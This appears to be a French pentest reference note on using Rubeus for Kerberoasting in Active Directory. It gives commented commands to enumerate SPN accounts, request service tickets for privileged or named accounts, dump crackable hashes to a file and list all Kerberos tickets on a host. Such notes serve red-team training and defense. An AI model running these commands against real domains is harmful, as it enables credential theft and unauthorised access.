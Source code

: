 ```yaml
---
public: true
---
```


Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```shell
# affiche un récapitulatif des comptes avec des SPNs 
# détaille certaines informations telles que :
# - les comptes dont le mot de passe est ancien
# - le nombre de comptes par méthode de hachage (rc4, aes128 etc)
./Rubeus.exe kerberoast /stats

# demande de TGS pour les comptes ayant 'Admincount' à 1
./Rubeus.exe kerberoast /ldapfilter:'admincount=1'

# Demande du TGS pour un utilisateur particulier pour un domaine particulier
./Rubeus.exe kerberoast /user:mssqlsvc /domain:domain.loca /nowrap

./Rubeus.exe kerberoast /outfile:hash.txt
```

[[Cassage de mots de passes Kerberos]]

## Affichage de tous les tickets kerberos 
De l'utilisateur courant ou de tous ce qui est sur le système (si admin)

```shell
.\Rubeus.exe triage
```

## Références
- https://specterops.gitbook.io/ghostpack/rubeus/ticket-extraction-and-harvesting3
- https://www.hackingarticles.in/a-detailed-guide-on-rubeus/